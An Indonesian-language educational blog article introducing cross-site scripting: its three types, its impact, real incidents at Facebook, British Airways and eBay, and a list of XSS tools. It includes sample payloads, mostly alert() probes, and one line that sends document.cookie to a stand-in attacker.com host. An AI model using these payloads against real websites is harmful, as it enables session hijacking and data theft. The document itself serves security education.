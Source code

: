 ```yaml
---
title: "Mengenal Serangan Cross-Site-Scripting (XSS) pada Website"
pubDate: 2022-07-05T08:36:28.798+0700
updatedDate: 2022-07-05T08:36:28.798+0700
categories: [""]
tags: ["xss-attack", "cross-site-scripting"]
heroImage:
    image: ../../assets/d23309750e10/06QYOVknjvvwFBtZd.png
externalPost: https://tridims.medium.com/mengenal-serangan-cross-site-scripting-xss-pada-website-d23309750e10
description: "XSS adalah serangan injeksi skrip pada sisi klien yang memungkinkan penyerang menjalankan kode berbahaya di browser korban untuk mencuri data, mengambil alih sesi, atau menyebarkan malware."
shorts: |
    > **TL;DR:** *XSS adalah serangan injeksi skrip pada sisi klien yang memungkinkan penyerang menjalankan kode berbahaya di browser korban untuk mencuri data, mengambil alih sesi, atau menyebarkan malware.*
    >
    > **Contoh payload**
    > ```html
    > <script>alert(1)</script>
    > <body onload=alert('test')>
    > <img src="x" onerror=alert(document.cookie)>
    > ```
---
```


Cross\-Site\-Scripting atau yang disingkat XSS adalah serangan berupa code injection yang menanamkan kode/skrip berbahaya di website yang terpercaya\. Serangan ini mengeksploitasi kerentanan XSS untuk mencuri data, mengendalikan sesi pengguna, menjalankan kode jahat, atau digunakan sebagai bagian dari serangan phishing\.

![](../../assets/d23309750e10/06QYOVknjvvwFBtZd.png)

Cross site scripting melakukan serangan injeksi kode pada sisi klien dengan menggunakan sarana halaman website atau web aplikasi\. Peretas akan mengeksekusi skrip berbahaya di browser korban dengan cara memasukkan kode berbahaya ke halaman web atau web aplikasi yang sah\. Serangan ini dapat dilakukan menggunakan JavaScript, VBScript, ActiveX, Flash, dan bahasa sisi klien lainnya\.

Cross site scripting menggunakan aplikasi web untuk menjalankan script berbahaya di dalam browser korban\. Korban secara tidak sadar dapat mendownload dan menjalankan script berbahaya\. Script berbahaya tersebut bisa terdownload karena aplikasi web menampilkan user input tanpa di validasi terlebih dahulu\. Penyerang dapat memasukkan string berupa kode kedalam input web app seperti search, form, dsb\.

## **Jenis\-Jenis Serangan XSS**

### **Reflected XSS \(Non\-Persistent\)**

![](../../assets/d23309750e10/0gUkkfV45hnLz1pwk.png)

Reflected XSS terjadi ketika skrip berbahaya dipantulkan dari web aplikasi ke browser korban\. Dapat terjadi ketika input pengguna yang tidak divalidasi dan tidak tersaring lolos sebagai bagian dari output HTML\. Serangan yang berhasil dapat memungkinkan penyerang untuk mengeksekusi HTML dan JavaScript di browser korban\.

### Stored XSS \(Persistent\)

![](../../assets/d23309750e10/0KzrA1xdgIOheKLCM.png)

Stored XSS merupakan jenis XSS yang paling merusak\. Dalam stored XSS, skrip yang disuntikkan akan disimpan secara permanen di server target, seperti database, forum pesan, visitor log, dan lain\-lain\.

### DOM\-based XSS

![](../../assets/d23309750e10/0nNN6uGtGenAX9dp.png)

Meruparkan jenis XSS dimana script berbahaya dirender secara dinamis ke dalam DOM \(Document Object Model\) \. Dapat dilakukan dengan menuliskan script atau argumen ke dalam url sebuah website\. Contohnya yaitu `http://www\.example\.com/test\.html\#\<script\>alert\(1\)\</script\>\`.

**Contoh XSS Script**

-   `<script>…</script>`
-   `\<body onload=alert\(‘test1’\)\>`
-   `\<b onmouseover=alert\(‘Wufff\!’\)\>click me\!\</b\>`
-   `\<img src=”http://url\.to\.file\.which/not\.exist" onerror=alert\(document\.cookie\);\>`
-   `\<script\>document\.location=’ [http://www\.attacker\.com/cgi\-bin/cookie\.cgi](http://www.attacker.com/cgi-bin/cookie.cgi) ? foo=’\+document\.cookie\</script\>`

**Tools yang dapat digunakan untuk melakukan XSS**

-   Framework XSS Scanner, ada beberapa contoh aplikasi
-   XSSer
-   XSStrike
-   Shuriken
-   Xsscrapy
-   KNOXSS
-   Beef (Browser Exploitation Framework Project, dapat menyediakan script dan server yang dapat digunakan untuk serangan XSS)

## **Dampak Serangan XSS**

Dampak dari serangan XSS dikatakan sesuai dengan jenis serangannya, untuk XSS jenis reflected dan DOM memiliki dampak kerusakan sedang, dan dapat berdampak parah pada jenis serangan stored XSS\. Dengan menggunakan remote code execution pada browser korban, penyerang dapat melakukan berbagai hal mulai dari pencurian data dan kredensial hingga mengirim malware ke korban\.

### **Contoh kasus serangan XSS**

#### 1. **Facebook**

Pada tahun 2011, terdapat tiga buah celah keamanan berbeda yang ditemukan dalam rentah waktu 10 hari\. Isu XSS kedua merupakan yang terburuk menurut saya karena digunakan untuk mendistribusikan serangan phising dan malware\.

#### 2. **British Airways**

Perusahaan penerbangan mengalami security breach pada tahun 2018 yang mempengaruhi 380\.000 transaksi penerbangan\. Penyerang menggunakan script javascript dan XSS attack untuk melacak data consumer\.

#### 3. **eBay**

Ebay pernah menghadapi banyak serangan XSS, dari December 2015 hingga Januari 2016\. Dengan serangan tersebut penyerang dapat mengakses produk pengguna, mencuri detail pembayaran mereka, menjual produk pengguna dengan harga murah, dll\.

## **Daftar Pustaka**

5 Real\-World Cross Site Scripting Examples\. \(2021\) \. Retrieved 28 February 2022, from [https://websitesecuritystore\.com/blog/real\-world\-cross\-site\-scripting\-examples/](https://websitesecuritystore.com/blog/real-world-cross-site-scripting-examples/#:~:text=As%20the%20name%20implies%2C%20stealing,transactions%2C%20personal%20data%2C%20etc)

[https://www\.softwaretestinghelp\.com/cross\-site\-scripting\-xss\-attack\-test/](https://www.softwaretestinghelp.com/cross-site-scripting-xss-attack-test/)

XSS Tutorial\. \(2022\) \. Retrieved 28 February 2022, from [https://hackertarget\.com/xss\-tutorial/](https://hackertarget.com/xss-tutorial/)

Cross Site Scripting \(XSS\) Software Attack \| OWASP Foundation\. \(2022\) \. Retrieved 28 February 2022, from [https://owasp\.org/www\-community/attacks/xss/](https://owasp.org/www-community/attacks/xss/)

DOM\-Based Cross Site Scripting \(DOM\-XSS\) \. \(2018\) \. Retrieved 28 February 2022, from [https://medium\.com/iocscan/dom\-based\-cross\-site\-scripting\-dom\-xss\-3396453364fd](https://medium.com/iocscan/dom-based-cross-site-scripting-dom-xss-3396453364fd)
